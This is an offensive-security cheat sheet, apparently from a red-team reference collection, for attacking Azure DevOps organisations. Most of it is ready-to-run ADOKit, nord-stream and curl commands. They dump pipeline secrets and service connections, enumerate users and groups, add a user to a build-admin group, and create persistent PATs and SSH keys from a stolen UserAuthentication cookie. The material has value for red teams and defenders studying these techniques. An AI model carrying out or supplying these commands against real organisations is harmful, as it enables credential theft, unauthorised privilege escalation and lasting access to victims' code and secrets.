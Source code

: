 # Azure Services - Azure DevOps

* [xforcered/ADOKit](https://github.com/xforcered/ADOKit) - Azure DevOps Services Attack Toolkit
* [synacktiv/nord-stream](https://github.com/synacktiv/nord-stream) - Nord Stream is a tool that allows you to extract secrets stored inside CI/CD environments by deploying malicious pipelines. It currently supports Azure DevOps, GitHub and GitLab.
    ```ps1
    # List all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg --list-secrets

    # Dump all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg
    ```

## Authentication

You can access an organization's Azure DevOps Services instance via https://dev.azure.com/{yourorganization}. 

* Username and Password
* Authentication Cookie `UserAuthentication`: `ADOKit.exe whoami /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization`
* Personal Access Token (PAT): `ADOKit.exe whoami /credential:patToken /url:https://dev.azure.com/YourOrganization`
    ```ps1
    PAT="XXXXXXXXXXX"
    organization="YOURORGANIZATION"
    curl -u :${PAT} https://dev.azure.com/${organization}/_apis/build-release/builds
    ```


## Recon

* Search files: `file:FileNameToSearch`, `file:Test* OR file:azure-pipelines*`
  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/PROJECTNAME/_apis/git/repositories/REPOSITORYID/items?recursionLevel=Full&api-version=7.0'
  ```

* Search code: `ADOKit.exe searchcode /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /search:"search term"`
  ```ps1
  curl -i -s -k -X $'POST'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: almsearch.dev.azure.com'
  -H $'Content-Length: 85'
  -H $'Expect: 100-continue'
  -H $'Connection: close'
  --data-binary $'{\"searchText\": \"SEARCHTERM\", \"skipResults\":0,\"takeResults\":1000,\"isInstantSearch\":true}' 
  $'https://almsearch.dev.azure.com/YOURORGANIZATION/_apis/search/codeAdvancedQueryResults?api-version=7.0-preview'
  ```

* Enumerate users
  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/_apis/graph/users?api-version=7.0'
  ```

* Enumerate groups: `ADOKit.exe getgroupmembers /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /group:"search term"`
  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/_apis/graph/groups?api-version=7.0'
  ```

* Enumerate project permissions: `ADOKit.exe getpermissions /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`


## Privilege Escalation

* Adding User to Group: `ADOKit.exe addcollectionbuildadmin /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /user:"username"` 
    ```ps1
    curl -i -s -k -X $'PUT'
    -H $'Content-Type: application/json'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: vssps.dev.azure.com'
    -H $'Content-Length: 0'
    $'https://vssps.dev.azure.com/YourOrganization/_apis/graph/memberships/userDescriptor/groupDescriptor?api-version=7.0-preview.1'
    ```

* Retrieve build variables and secrets: `ADOKit.exe getpipelinevars /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`, `ADOKit.exe getpipelinesecrets /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`
    ```ps1
    curl -i -s -k -X $'GET'
    -H $'Content-Type: application/json'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: dev.azure.com'
    $'https://dev.azure.com/YourOrganization/ProjectName/_apis/build/Definitions/DefinitionIDNumber?api-version=7.0'
    ```

* Retrieve Service Connection Information: `ADOKit.exe getserviceconnections /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`
    ```ps1
    curl -i -s -k -X $'GET'
    -H $'Content-Type: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: dev.azure.com'
    $'https://dev.azure.com/YourOrganization/YourProject/_apis/serviceendpoint/endpoints?api-version=7.0'
    ```


## Persistence

* Create a PAT: `ADOKit.exe createpat /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization`
    ```ps1
    curl -i -s -k -X $'POST'
    -H $'Content-Type: application/json'
    -H $'Accept: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Host: dev.azure.com'
    -H $'Content-Length: 234'
    -H $'Expect: 100-continue'
    -b $'X-VSS-UseRequestRouting=True; UserAuthentication=stolenCookie'
    --data-binary $'{\"contributionIds\":[\"ms.vss-token-web.personal-accesstoken-issue-session-tokenprovider\"],\"dataProviderContext\":{\"properties\":{\"displayName\":\"PATName\",\"validTo\":\"YYYY-MMDDT00:00:00.000Z\",\"scope\":\"app_token\",\"targetAccounts\":[]}}}}}'
    $'https://dev.azure.com/YourOrganization/_apis/Contribution/HierarchyQuery'
    ```

* Create SSH Keys: `ADOKit.exe createsshkey /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /sshkey:"ssh pub key"`
    ```ps1
    curl -i -s -k -X $'POST'
    -H $'Content-Type: application/json'
    -H $'Accept: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Host: dev.azure.com'
    -H $'Content-Length: 856'
    -H $'Expect: 100-continue'
    -b $'X-VSS-UseRequestRouting=True; UserAuthentication=stolenCookie'
    --data-binary $'{\"contributionIds\":[\"ms.vss-token-web.personal-accesstoken-issue-session-tokenprovider\"],\"dataProviderContext\":{\"properties\":{\"displayName\":\"SSHKeyName\",\"publicData\":\"public SSH key content\",\"validTo\":\"YYYY-MMDDT00:00:00.000Z\",\"scope\":\"app_token\",\"isPublic\":true,\"targetAccounts\":[\"organizationID\"]}}}}}'
    $'https://dev.azure.com/YourOrganization/_apis/Contribution/HierarchyQuery'
    ```


## References

* [Hiding in the Clouds: Abusing Azure DevOps Services to Bypass Microsoft Sentinel Analytic Rules - Brett Hawkins - November 6, 2023](https://www.ibm.com/downloads/cas/5JKAPVYD)